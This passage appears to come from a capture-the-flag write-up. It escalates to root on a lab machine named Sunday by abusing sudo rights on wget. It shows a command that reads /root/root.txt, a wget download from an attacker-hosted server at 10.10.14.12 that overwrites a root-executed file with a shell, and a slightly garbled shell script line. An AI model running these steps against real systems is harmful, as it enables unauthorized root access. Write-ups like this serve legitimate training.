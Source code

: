 ![](../images/max/741/1*sNjl25x8PcsO0dq8WhPS2Q.png)

Let’s try to escalate to root privileges. Run the sudo command again to view the list of allowed commands the user can run as root.

```text
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

We can run wget with root privileges! If you’re familiar with the “-i” flag in wget, you’ll know that we can use it to output the content of files. Therefore, we can run the following command to get the root flag.

```text
sudo wget -i /root/root.txt
```

However, in this scenario we’re simply reading the content of the flag and not really escalating privileges. To get a root shell we need to chain the following two vulnerabilities:

1. The user Sunny can execute the /root/troll file with root privileges, and
2. The user Sammy can overwrite any root owned file using the wget command.

Therefore, we’ll use Sammy’s sudo privileges to overwrite the /root/troll file and include a shell in it. Then we’ll use Sunny’s sudo privileges to run the /root/troll file and convert our shell to a root shell.

Alright, let’s do this! In the attack machine, create a file called “troll” and add the following code to it.

```text
#!/usr/bin/bashbash
```

Then start up a simple Python server in the directory the file is in.

```text
python -m SimpleHTTPServer 5555
```

Go back the target machine running with the Sammy user privileges, and run the wget command to overwrite the /root/troll file.

```text
sudo wget -O /root/troll http://10.10.14.12:5555/troll
```

In another SSH session running with the Sunny user privileges, execute the troll file.

```text
sudo /root/troll
```

Since we added a bash shell in the troll file and the troll file is being executed with root privilege, we get a root shell!
